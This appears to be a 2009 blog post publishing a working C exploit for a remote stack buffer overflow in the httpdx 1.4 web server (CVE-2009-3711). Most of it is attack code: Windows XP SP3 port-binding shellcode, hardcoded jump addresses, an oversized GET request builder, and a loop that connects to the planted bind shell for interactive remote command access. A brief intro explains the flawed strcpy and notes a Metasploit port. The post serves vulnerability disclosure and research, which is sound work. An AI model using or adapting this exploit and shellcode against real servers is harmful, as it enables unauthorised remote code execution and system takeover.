 ```yaml
---
author: pank4j
comments: true
date: 2009-09-04 00:38:36+00:00
layout: post
slug: httpdx-1-4-get-request-remote-buffer-overflow-exploit-0day
title: httpdx 1.4 GET Request Remote Buffer Overflow Exploit (0day)
wordpress_id: 56
categories:
- Archive
tags:
- CVE-2009-3711
- exploits
- httpdx
- OSVDB-58714
---
```


httpdx is vulnerable to a stack-based buffer overflow, caused by improper bounds checking by the `h_handlepeer()` function. By sending an overly long HTTP GET request, a remote attacker could overflow a buffer and execute arbitrary code on the system or cause the application to crash.

This exploit is also available as a metasploit module [here](http://www.metasploit.com/modules/exploit/windows/http/httpdx_handlepeer). Thanks to Trancer for porting it to Metasploit.

{% highlight c %}
/*
 * httpdx 1.4 GET Request Remote Buffer Overflow Exploit (0day)
 *
 * Tested with httpdx 1.4 on Windows XP SP3
 *
 * Written and discovered by Pankaj Kohli
 * http://www.codepwn.com
 *
 * Greetz: str0ke
 *
 * httpdx web server 1.4 is vulnerable to a remote buffer overflow using long GET requests
 * such as http://www.example.com/aaa=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...
 * The vulnerability lies in httpdx_src/http.cpp in h_handlepeer() : strcpy(index,client->filereq);
 *
 * pankaj@zion:~$ ./httpdxb0f 192.168.2.1 80
 *
 * ---------------------------------------------------------------------
 * [*] httpdx 1.4 GET Request Remote Buffer Overflow Exploit (0day)
 * [*] Written and discovered by Pankaj Kohli <http://www.codepwn.com>
 * [*] Tested with httpdx 1.4 on Windows XP SP3
 *
 * [+] Creating payload
 * [+] Connecting to 192.168.2.1 on port 80
 * [+] Sending payload
 *
 * [+] Dropping to shell
 *
 * Microsoft Windows XP [Version 5.1.2600]
 * (C) Copyright 1985-2001 Microsoft Corp.
 *
 * C:\Documents and Settings\pankaj\Desktop\httpdx1.4\root_example>
 *
*/

#include <stdio.h>
#include <stdlib.h>
#include <error.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <unistd.h>
#include <netdb.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>

/* 128 byte portbinding shellcode (for WinXP SP3) port 58821
 Derived from shellcode written by silicon */
unsigned char bindcode[] =
"\x89\xE5"
"\x83\xC4\xEC\x33\xC0\x50\x50\x50\x6A\x06"
"\x6A\x01\x6A\x02\xB8"
"\x6A\x8B\xAB\x71" // WSASocketA()
"\xFF\xD0\x8B\xD8\x33\xC0\x89\x45\xF4\xB0"
"\x02\x66\x89\x45\xF0\x66\xC7\x45\xF2\xE5"
"\xC5\x6A\x10\x8D\x55\xF0\x52\x53\xB8"
"\x80\x44\xAB\x71" // bind()
"\xFF\xD0\x6A\x01\x53\xB8"
"\xD3\x8C\xAB\x71" // listen()
"\xFF\xD0\x33\xC0\x50\x50\x53\xB8"
"\x40\x10\xAC\x71" // accept()
"\xFF\xD0\x8B\xD8\xBA"
"\x63\xD3\x81\x7C" // SetStdHandle()
"\x53\x6A\xF6\xFF\xD2\x53\x6A\xF5\xFF\xD2"
"\x53\x6A\xF4\xFF\xD2\xC7\x45\xFB\x41\x63"
"\x6D\x64\x8D\x45\xFC\x50\xB8"
"\xC7\x93\xC2\x77" // system()
"\xFF\xD0"
"\x31\xC0\x50\xB8"
"\xFA\xCA\x81\x7C" // ExitProcess()
"\xFF\xD0";

/* ripped from TESO code */
void shell (int sock)
{
    int l;
    char buf[512];
    fd_set rfds;

    while (1) {
        FD_SET (0, &rfds);
        FD_SET (sock, &rfds);

        select (sock + 1, &rfds, NULL, NULL, NULL);
        if (FD_ISSET (0, &rfds)) {
            l = read (0, buf, sizeof (buf));
            if (l <= 0) {
                printf("\n - Connection closed by local user\n");
                exit (EXIT_FAILURE);
            }
            write (sock, buf, l);
        }

        if (FD_ISSET (sock, &rfds)) {
            l = read (sock, buf, sizeof (buf));
            if (l == 0) {
                printf ("\n - Connection closed by remote host.\n");
                exit (EXIT_FAILURE);
            } else if (l < 0) {
                printf ("\n - Read failure\n");
                exit (EXIT_FAILURE);
            }
            write (1, buf, l);
        }
    }
}

int main(int argc, char **argv)
{
    char buff[1100];
    long ret1 = 0x64f8134b; // pop ret (core.dll)
    long addr = 0x63b8624f; // Required to reach ret instruction
    long ret2 = 0x7c86467b; // jmp esp (kernel32.dll)
    long *ptr;
    struct sockaddr_in target;
    int i, port, sock;

    printf("\n---------------------------------------------------------------------\n");
    printf(" [*] httpdx 1.4 GET Request Remote Buffer Overflow Exploit (0day) \n");
    printf(" [*] Written and discovered by Pankaj Kohli <http://www.codepwn.com> \n");
    printf(" [*] Tested with httpdx 1.4 on Windows XP SP3 \n\n");

    if(argc < 3)
    {
        printf("[-] Usage: %s <Target IP> <Port>\n\n", argv[0]);
        exit(1);
    }

    port = atoi(argv[2]);
    printf("[+] Creating payload \n");

    memset(buff, 0, 1024);
    strcpy(buff, "GET /abc=");
    memset(buff+9, 'A', 616);
    ptr = (long *) (buff + 625);
    *ptr = ret1;
    ptr++;
    *ptr = addr;
    ptr++;
    *ptr = ret2;
    ptr++;
    *ptr = 0;
    strcat(buff, bindcode);
    memset(buff+765, 'A', 244);
    buff[1009] = 0;
    strcat(buff, " HTTP/1.1\r\nHost: 192.168.2.1\r\n\r\n");

    printf("[+] Connecting to %s on port %s \n", argv[1], argv[2]);
    target.sin_family = AF_INET;
    target.sin_addr.s_addr = inet_addr(argv[1]);
    target.sin_port = htons(port);

    if((sock = socket(AF_INET, SOCK_STREAM, 0)) == -1)
    {
        perror("[-] Socket \n");
        return(1);
    }

    if(connect(sock, (struct sockaddr *) &target, sizeof(target)) != 0)
    {
        perror("[-] Connect \n");
        return(1);
    }

    printf("[+] Sending payload \n");
    if (send(sock, buff, strlen(buff), 0)== -1)
    {
        perror("[-] Send \n");
        return(1);
    }

    close(sock);
    sleep(1);

    target.sin_family = AF_INET;
    target.sin_addr.s_addr = inet_addr(argv[1]);
    target.sin_port = htons(58821);

    if((sock = socket(AF_INET, SOCK_STREAM, 0)) == -1)
    {
        perror("[-] Socket \n");
        return(1);
    }

    if(connect(sock, (struct sockaddr *) &target, sizeof(target)) != 0)
    {
        printf("[-] Exploit failed. \n");
        return(1);
    }

    printf("\n[+] Dropping to shell \n\n");
    shell(sock);
    return 0;
}
{% endhighlight %}

